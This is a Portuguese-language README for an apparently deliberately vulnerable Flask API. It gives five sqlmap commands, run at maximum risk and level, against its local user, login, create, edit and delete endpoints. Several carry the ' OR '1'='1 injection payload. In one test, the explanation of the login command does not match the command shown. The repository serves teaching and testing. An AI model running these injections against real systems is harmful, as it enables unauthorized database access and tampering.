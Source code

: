 # Testes de SQL Injection com SQLMap

Este repositório contém uma API Flask vulnerável a SQL Injection para fins de teste e demonstração. O objetivo é demonstrar como o SQLMap pode ser usado para realizar ataques de injeção SQL em APIs que não utilizam práticas de segurança adequadas, como o uso de parâmetros preparados.

## Funcionalidade

A API oferece endpoints para gerenciamento de usuários, incluindo:
- Criação de usuários
- Edição de usuários
- Exclusão de usuários
- Consulta de usuários (por ID ou todos os usuários)
- Login de usuários

Esta API é vulnerável a SQL Injection em todos os endpoints que utilizam consultas SQL sem parâmetros preparados, permitindo a exploração dessa falha de segurança.

## Pré-requisitos

- Docker
- Docker Compose

## Como Rodar a Aplicação

Para rodar a aplicação, você pode usar o Docker com o `docker-compose`.

1. Clone este repositório:

   ```bash
   git clone <URL do repositório>
   cd <diretório do repositório>
   ```
2. Execute o Docker Compose para iniciar a aplicação:

   ```bash
   docker-compose up -d
   ```

### Teste 1: Testando o endpoint `GET /user?id={id}`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que recupera um usuário pelo ID:

 ```bash
    python3 sqlmap.py -u "http://localhost:5000/user?id=1" --batch --dbs --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/user?id=1"`: URL do endpoint com o parâmetro `id`.
- `--dbs`: Solicita ao sqlmap que recupere o nome dos bancos de dados disponíveis.
- `--risk=3 --level=5`: Define o nível de risco e o nível de teste do sqlmap para realizar testes mais agressivos e profundos.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste irá verificar se a aplicação está vulnerável a SQL Injection no parâmetro `id` e buscará detalhes do banco de dados.

### Teste 2: Testando o endpoint `POST /login`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint de login:

 ```bash
python3 sqlmap.py -u "http://localhost:5000/login" --batch --data "email=admin@example.com&password=password123" --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/login"`: URL do endpoint de login.
- `--data "email=admin@example.com&password=' OR '1'='1"`: Envia dados de login com uma injeção SQL no parâmetro `password`.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este comando irá testar se é possível realizar um login bypass usando SQL Injection, explorando a falha no parâmetro `password`.

### Teste 3: Testando o endpoint `POST /create_user`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que cria um novo usuário:

 ```bash
python3 sqlmap.py -u "http://localhost:5000/create_user" --batch --data "name=Test&email=test@example.com&password=' OR '1'='1" --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/create_user"`: URL do endpoint de criação de usuário.
- `--data "name=Test&email=test@example.com&password=' OR '1'='1"`: Envia dados com injeção SQL no parâmetro `password`.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste verifica se é possível criar um novo usuário através de uma injeção SQL no parâmetro `password`.

### Teste 4: Testando o endpoint `PUT /edit_user?id={id}`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que edita um usuário existente:

 ```bash
python3 sqlmap.py -u "http://localhost:5000/edit_user?id=1" --batch --data "name=UpdatedName&email=updated@example.com&password=' OR '1'='1" --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/edit_user?id=1"`: URL do endpoint de edição de usuário.
- `--data "name=UpdatedName&email=updated@example.com&password=' OR '1'='1"`: Envia dados de edição com uma injeção SQL no parâmetro `password`.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste irá verificar se é possível alterar os dados de um usuário existente através de uma injeção SQL no parâmetro `password`.

### Teste 5: Testando o endpoint `DELETE /delete_user?id={id}`

Execute o seguinte comando para testar a vulnerabilidade de SQL Injection no endpoint que deleta um usuário:
 
 ```bash
python3 sqlmap.py -u "http://localhost:5000/delete_user?id=1" --batch --risk=3 --level=5
 ```

Explicação:

- `-u "http://localhost:5000/delete_user?id=1"`: URL do endpoint de deletação de usuário.
- `--risk=3 --level=5`: Configura os níveis de risco e profundidade de teste.
- `--batch`: Modo automatizado, sem prompts de interação.

Este teste verificará se é possível deletar um usuário utilizando uma injeção SQL no parâmetro `id`.

## Como Funciona a Aplicação

- A aplicação é um servidor Flask que expõe diversas rotas vulneráveis.
- Ela se conecta a um banco de dados PostgreSQL, que armazena informações sobre usuários.
- A vulnerabilidade de SQL Injection está presente porque as consultas SQL são formadas diretamente a partir de parâmetros fornecidos pelo usuário, sem o uso de parâmetros preparados ou ORM.

### Endpoints da API

- `GET /`: Retorna uma mensagem de teste.
- `GET /user?id={id}`: Recupera um usuário pelo ID.
- `GET /users`: Recupera todos os usuários.
- `POST /login`: Realiza o login de um usuário.
- `POST /create_user`: Cria um novo usuário.
- `PUT /edit_user?id={id}`: Edita um usuário existente.
- `DELETE /delete_user?id={id}`: Deleta um usuário.

## Conclusão

Este projeto serve como uma demonstração de como vulnerabilidades de SQL Injection podem ser exploradas em uma aplicação web. Utilize o `sqlmap` para testar cada uma das rotas e explorar as falhas de segurança da API.